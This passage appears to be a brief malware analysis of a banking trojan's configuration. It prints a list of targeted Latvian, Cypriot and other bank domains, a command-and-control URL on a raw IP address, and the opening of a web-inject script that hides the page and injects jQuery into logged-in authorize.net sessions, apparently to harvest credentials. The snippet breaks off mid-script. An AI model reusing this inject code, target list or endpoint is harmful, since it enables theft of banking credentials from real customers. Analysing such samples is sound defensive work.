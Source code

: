 ```bash
*marfinbank.com.cy*
*multinetbank.eu*
*nordea.com*
*secure.ltbbank.com*
*secure.ltblv.com*
*swedbank.lv*
*norvik.lv*
*online.alphabank.com.cy*
*online.citadele.lv*
*online.lkb.lv*
*online.ibl.com.lb*
*online-offshore.lloydstsb.com*
*online.usb.com.cy*
*parex.lv*
*handelsbanken.lv*
*pastabanka.lv*
*piraeusbank.com*
*lv.unicreditbanking.net*
```

I found a lot of banking domains, this is just a snippet This is weird and suspicious. Further information retrieved:

```bash
*jqueryaddonsv2.js*
http://188.40.0.138:8080/zb/v_01_a/in/cp.php
*account.authorize.net/*
<head*>
<style type="text/css">
body { visibility: hidden; }
.ui-dialog-titlebar { display:none; }
.ui-dialog .ui-dialog-titlebar-close { visibility: hidden; }
.ui-dialog { width: 400px; font-size: 11px;  padding: 0px; position:absolute; top:150px;}
.ui-dialog .ui-dialog-titlebar { visibility: hidden; display: none;}
.ui-dialog-content { padding: 0px;}
</style>
<link type="text/css" rel="stylesheet" href="https://ajax.googleapis.com/ajax/libs/jqueryui/1.7.1/themes/smoothness/ui.all.css" />
<script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.3.2/jquery.min.js"></script>
<script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jqueryui/1.7.1/jquery-ui.min.js"></script>
<script type="text/javascript">
var jq = jQuery.noConflict();
var testInj = false;
jq(document).ready(mainloader);
function mainloader() {
    if (get_cookie("stopseQ") == null && jq("a.HeaderLogout").length > 0) {
        debugInj("LoaderON");
        jq("body").append("<div id=\"DataDiv\" style=\"display: none; text-align:center; padding:3px; margin:3px;\"></div>");
```